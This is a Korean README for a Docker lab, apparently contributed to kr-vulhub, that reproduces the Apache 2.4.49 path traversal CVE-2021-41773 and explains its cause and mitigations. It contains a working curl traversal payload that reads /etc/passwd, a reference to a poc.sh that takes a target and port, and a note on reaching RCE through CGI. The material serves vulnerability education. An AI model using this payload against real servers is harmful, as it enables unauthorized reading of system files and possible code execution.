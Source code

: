 # CVE-2021-41773 [Apache HTTP Server Path Traversal]

> 화이트햇 스쿨 3기 - [이준영 (@ljyoung04)](https://github.com/ljyoung04)

<br/>

## 요약

- Apache HTTP Server 2.4.49 버전의 경로 정규화 변경 사항에서 결함이 발견되었습니다.
- 이 결함을 사용하여 Path Traversal 공격을 수행하여 Alias와 유사한 지시문으로 구성된 디렉터리 외부의 파일에 접근할 수 있습니다.
- 또한 CGI 스크립트 실행이 활성화되어 있다면 RCE가 가능할 수도 있습니다.
- 실제로 악용된 사례가 있으며 오직 Apache 2.4.49 버전에만 해당됩니다.
- 이 취약점에 대한 수정이 이루어졌지만, 수정이 불완전하여 CVE-2021-42013으로 이어졌습니다.

<br/>

## 환경 구성 및 실행

다음 명령어를 입력하여 취약한 도커 환경을 구축할 수 있습니다.

```
$ sudo docker compose up -d
```

```
$ curl localhost:8080
<meta charset="UTF-8" />
<h1>WHS 3기 이준영</h1>
<h2>CVE-2021-41773 TEST</h2>
$
```

위 처럼 입력했을 때 출력이 같으면 환경이 잘 구축된 것입니다.

아래와 같이 입력하여 Path Traversal 공격을 수행할 수 있습니다.

```
$ curl --path-as-is -v http://localhost:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

또는 poc.sh를 사용할 수 있습니다.

```
$ ./poc.sh
Usage ./poc.sh <target> <port>

$ ./poc.sh localhost 8080
```

<br/>

## 결과

<img src="https://github.com/ljyoung04/kr-vulhub/blob/main/Apache/CVE-2021-41773/image.png">

<br/>

## 설명

vulhub에 존재하지 않는 CVE 환경을 구축하기 위해 CVE 자료를 찾아보던 중 CVE-2021-41773에 대해 알게 되었고, 이에 대해 조사를 해봤습니다.

CVE-2021-41773은 아파치 HTTP 서버 2.4.49 버전에서만 발생한다는 것을 알게되었고 도커 파일을 작성해 테스트해보게 되었습니다.

따로 이 CVE를 위한 이미지가 존재하지는 않아서 같은 디렉토리에 있는 dockerfile을 빌드해서 사용하도록 docker-compose.yml을 작성했습니다.

HTTP 서버를 바로 가져와서 실행하면 공격이 먹히지 않기 때문에 httpd.conf 파일의 일부분을 다음과 같이 수정해야합니다.

```
<Directory />
    ...
    Require all granted
</Directory>
```

이 지시자의 의미는 모든 사용자에게 루트 디렉토리 접근을 허용한다는 것입니다. 굳이 루트 디렉토리가 아니더라도 접근이 허용되어 있는 디렉토리가 있다면 공격할 수 있습니다.

이 취약점은 아파치 HTTP 서버 버전 2.4.49에서 새로운 경로 정규화를 도입하게 되었는데, URL 매핑 부분에서 인코딩된 문자열을 막지 못했기 때문에 발생했습니다.

curl --path-as-is -v 에서 --path-as-is는 URL 경로를 수정하지 않고 입력한 그대로 사용하라는 의미이고,
-v 옵션은 요청/응답의 자세한 정보를 보여주는 옵션입니다.

또한 서버에서 cgi 스크립트 실행이 허용되어 있다면 cgi-bin 폴더를 사용해 RCE가 가능합니다.
<br/>

## 결론

이 취약점은 Path Traversal을 통해 접근할 수 없는 파일에 접근할 수 있기 때문에, 서버의 중요 정보가 유출될 위험이 있고, 환경에 따라서 RCE가 가능할 수 있기 때문에 매우 위협적인 취약점이다.
이 취약점같은 경우에는 중요 파일들이 있는 디렉토리에 접근을 허용하지 않으면 traversal이 되지 않기 때문에 권한을 최소한으로 하는 것이 중요합니다. 또한 최신 보안 패치를 빠르게 받아 취약점에 대응하는 것도 중요합니다.

## PS.

> Pull Request : https://github.com/gunh0/kr-vulhub/pull/202
